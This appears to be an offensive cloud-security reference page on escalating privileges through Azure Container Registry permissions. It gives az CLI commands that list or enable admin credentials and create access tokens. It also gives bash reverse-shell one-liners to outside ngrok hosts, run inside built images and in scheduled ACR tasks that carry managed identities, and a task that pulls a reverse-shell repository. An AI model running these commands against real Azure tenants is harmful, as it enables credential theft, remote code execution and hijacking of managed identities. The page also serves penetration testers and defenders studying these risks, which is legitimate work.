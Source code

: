 # Az - Azure Container Registry Privesc

## Azure Container Registry

Fore more information check:

[[../az-services/az-container-registry.md]]

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

This permission allows the user to list the admin credentials of the ACR. This is useful to **get full access** over the registry

```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```

In case the admin credentials aren't enabled, you will also need the permission `Microsoft.ContainerRegistry/registries/write` to enable them with:

```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```

### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

These permissions allow the user to **create a new token** with passwords to access the registry.

To use the `az cli`to generate it as in the following example you will also need the permissions `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`

```bash
az acr token create \
    --registry <registry-name> \
    --name <token-name> \
    --scope-map _repositories_admin
```

### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

These permissions allow the user to **build and run an image** in the registry. This can be used to **execute code** in the container.

> [!WARNING]
> However, the image will be executed in a **sandboxed environment** and **without access to the metadata service**. This means that the container will not have access to the **instance metadata** so this isn't really useful to escalate privileges

```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```

### `Microsoft.ContainerRegistry/registries/tasks/write`

This is the main permission that allows to create and update a task in the registry. This can be used to **execute a code inside a container with a managed identity attached to it** in the container.

This is the example on how to execute a reverseh shell in a container with the **system managed** identity attached to it:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

Another way to get a RCE from a task without using an external repository is to use the `az acr task create` command with the `--cmd` flag. This will allow you to run a command in the container. For example, you can run a reverse shell with the following command:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task-cmd \
    --image rev/shell2:v1 \
    --cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
    --schedule "*/1 * * * *" \
    --context /dev/null \
    --commit-trigger-enabled false \
    --assign-identity
```

> [!TIP]
> Note that to assign the system managed identity you don't need any special permission, although it must have been enabled before in the registry and assigned some permissions for it to be useful.

To assign a **user managed identity also** you would need the permission `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` to do:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

To **update** the repo of an existent task you can do:

```bash
az acr task update \
    --registry <registry-name> \
    --name reverse-shell-task \
    --context https://github.com/your-user/your-repo.git 
```

### `Microsoft.ContainerRegistry/registries/importImage/action`

With this permission it's possible to **import an image to the azure registry**, even without having the image locally. However, note that you **cannot import an image with a tag** that already exists in the registry.

```bash
# Push with az cli
az acr import \
  --name <registry-name> \
  --source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```

In order to **untag or delete a specific image tag** from the registry you can use the following command. However, note that you will need a user or token with **enough permissions** to do it:

```bash
az acr repository untag \
    --name <registry-name> \
    --image <image-name>:<tag>

az acr repository delete \
    --name <registry-name> \
    --image <image-name>:<tag>
```

